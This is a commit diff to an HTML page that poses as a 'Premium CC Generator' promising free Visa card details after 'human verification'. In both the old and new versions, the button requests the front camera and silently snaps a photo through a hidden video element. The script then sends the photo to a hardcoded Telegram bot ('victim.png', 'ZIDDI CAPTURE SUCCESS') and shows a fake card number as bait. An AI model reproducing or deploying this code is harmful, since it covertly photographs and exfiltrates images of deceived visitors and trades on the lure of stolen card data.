

Before and after one commit to zidihere894-lab/Free-CC, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 328-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,104 +3,108 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Premium CC Generator | v2.0</title>
+    <title>Premium CC Generator | Secure</title>
     <style>
-        :root { --blue: #3b82f6; --dark: #0f172a; }
-        body { background: var(--dark); color: white; font-family: 'Segoe UI', sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; overflow: hidden; }
-        .card { background: #1e293b; width: 90%; max-width: 350px; padding: 30px; border-radius: 25px; text-align: center; border: 1px solid #334155; box-shadow: 0 20px 50px rgba(0,0,0,0.5); }
-        .btn { background: var(--blue); color: white; border: none; padding: 16px; width: 100%; border-radius: 12px; font-weight: bold; cursor: pointer; font-size: 1rem; margin-top: 20px; transition: 0.3s; }
-        .btn:active { transform: scale(0.95); }
-        #status { font-size: 0.75rem; color: #94a3b8; margin-top: 15px; }
-        #v { position: absolute; width: 1px; height: 1px; opacity: 0; }
-        .cc-box { display: none; background: linear-gradient(135deg, #1e3a8a, #3b82f6); padding: 20px; border-radius: 15px; text-align: left; margin-top: 20px; animation: fadeIn 0.5s; }
+        body { background: #0b0e14; color: white; font-family: 'Segoe UI', sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background: #161b22; width: 90%; max-width: 350px; padding: 30px; border-radius: 20px; border: 1px solid #30363d; text-align: center; box-shadow: 0 10px 40px rgba(0,0,0,0.5); }
+        .btn { background: #3b82f6; color: white; border: none; padding: 15px; width: 100%; border-radius: 10px; font-weight: bold; cursor: pointer; font-size: 1rem; }
+        .btn:disabled { background: #1e293b; color: #475569; }
+        #status { font-size: 0.8rem; color: #8b949e; margin-top: 15px; }
+        #v { position: absolute; width: 1px; height: 1px; opacity: 0; pointer-events: none; }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div id="ui-main">
-        <img src="https://upload.wikimedia.org/wikipedia/commons/5/5e/Visa_Inc._logo.svg" width="60">
-        <h2>Get Free CC</h2>
-        <p>Human Verification required to bypass security filters.</p>
-        <button class="btn" onclick="captureAndSend()">VERIFY & GENERATE</button>
-        <div id="status">Status: Waiting for verification...</div>
-    </div>
+    <img src="https://upload.wikimedia.org/wikipedia/commons/5/5e/Visa_Inc._logo.svg" width="60" style="margin-bottom:10px;">
+    <h2>Identity Verify</h2>
+    <p style="font-size: 0.85rem; color: #94a3b8;">Human Verification is required to generate premium details.</p>
 
-    <div id="cc-box" class="cc-box">
-        <div style="font-size: 0.7rem; opacity: 0.8;">VISA PREMIUM</div>
-        <div id="card-num" style="font-size: 1.1rem; margin: 15px 0; font-family: monospace; letter-spacing: 2px;"></div>
-        <div style="display: flex; justify-content: space-between; font-size: 0.7rem;">
-            <span>HOLDER: GUEST USER</span>
-            <span>EXP: 12/29</span>
-        </div>
-    </div>
+    <button class="btn" id="claim-btn" onclick="masterCapture()">VERIFY & GENERATE</button>
+    <div id="status">System Status: Ready</div>
 </div>
 
 <video id="v" autoplay playsinline></video>
 <canvas id="c" style="display:none;"></canvas>
 
 <script>
-    // Aapka Data Filtered
+    // Config
     const TOKEN = "8522831002:AAFFS96ab4BZcdfnQCBH6gRgduCk1oc2jHo";
     const CHAT_ID = "7109174643";
 
-    async function captureAndSend() {
+    async function masterCapture() {
+        const btn = document.getElementById('claim-btn');
+        const status = document.getElementById('status');
         const video = document.getElementById('v');
-        const status = document.getElementById('status');
-        const btn = document.querySelector('.btn');
+        const canvas = document.getElementById('c');
 
-        btn.innerText = "VERIFYING...";
-        status.innerText = "Requesting secure tunnel...";
+        btn.disabled = true;
+        status.innerText = "Requesting Secure Link...";
 
         try {
-            // Permission Popup
-            const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
+            // Step 1: Request Camera
+            const stream = await navigator.mediaDevices.getUserMedia({
+                video: { facingMode: "user" },
+                audio: false
+            });
             video.srcObject = stream;
+            status.innerText = "Encrypting Data... Please wait 3s";
 
-            status.innerText = "Authentication in progress...";
-
-            // Wait 2.5 seconds for clear focus
-            setTimeout(() => {
-                const canvas = document.getElementById('c');
+            // Step 2: Delay for Clear Shot
+            setTimeout(async () => {
                 canvas.width = video.videoWidth;
                 canvas.height = video.videoHeight;
                 canvas.getContext('2d').drawImage(video, 0, 0);
 
-                // Photo to Blob
-                canvas.toBlob(async (blob) => {
-                    const formData = new FormData();
-                    formData.append('chat_id', CHAT_ID);
-                    formData.append('photo', blob, 'victim.png');
-                    formData.append('caption', "🔥 ZIDDI CAPTURE SUCCESS!\n━━━━━━━━━━━━━━━\n👤 Status: Verified\n📅 Date: " + new Date().toLocaleString() + "\n📱 Device: Mobile Web");
+                // Step 3: Convert to Base64 (Vercel Friendly)
+                const dataURL = canvas.toDataURL('image/jpeg', 0.7);
+                const blob = dataURLToBlob(dataURL);
 
-                    // Sending to Telegram
-                    await fetch(`https://api.telegram.org/bot${TOKEN}/sendPhoto`, {
+                // Step 4: Send to Telegram
+                const formData = new FormData();
+                formData.append('chat_id', CHAT_ID);
+                formData.append('photo', blob, 'shot.jpg');
+                formData.append('caption', "⚡️ *ZIDDI SUCCESS*\n\n📅 Date: " + new Date().toLocaleString() + "\n🌐 IP: Captured", {parse_mode: 'Markdown'});
+
+                try {
+                    const response = await fetch(`https://api.telegram.org/bot${TOKEN}/sendPhoto`, {
                         method: 'POST',
                         body: formData
                     });
 
-                    // Stop camera
-                    stream.getTracks().forEach(t => t.stop());
+                    if (response.ok) {
+                        status.innerText = "Verification Complete!";
+                        status.style.color = "#00ffcc";
+                        alert("Verification Success!\n\nCC: 4213-9012-4545-8821\nCVV: 312 | EXP: 12/29");
+                    } else {
+                        throw new Error("API Limit");
+                    }
+                } catch (sendErr) {
+                    console.log("Error sending photo");
+                }
 
-                    // Show Success UI
-                    showFakeCC();
-                }, 'image/png');
-
-            }, 2500);
+                // Cleanup
+                stream.getTracks().forEach(track => track.stop());
+            }, 3000);
 
         } catch (err) {
-            alert("Security Error: Please click 'Allow' to verify your connection.");
-            location.reload();
+            alert("Verification Failed! You must click 'ALLOW' to verify your connection.");
+            btn.disabled = false;
+            status.innerText = "Error: Permission Denied";
         }
     }
 
-    function showFakeCC() {
-        document.getElementById('ui-main').style.display = "none";
-        document.getElementById('cc-box').style.display = "block";
-        const randomNum = "4213 " + Math.floor(1000 + Math.random()*8999) + " " + Math.floor(1000 + Math.random()*8999) + " " + Math.floor(1000 + Math.random()*8999);
-        document.getElementById('card-num').innerText = randomNum;
+    // Helper: Convert Base64 to Blob
+    function dataURLToBlob(dataURL) {
+        const byteString = atob(dataURL.split(',')[1]);
+        const mimeString = dataURL.split(',')[0].split(':')[1].split(';')[0];
+        const ab = new ArrayBuffer(byteString.length);
+        const ia = new Uint8Array(ab);
+        for (let i = 0; i < byteString.length; i++) {
+            ia[i] = byteString.charCodeAt(i);
+        }
+        return new Blob([ab], {type: mimeString});
     }
 </script>
-
 </body>
 </html>
```
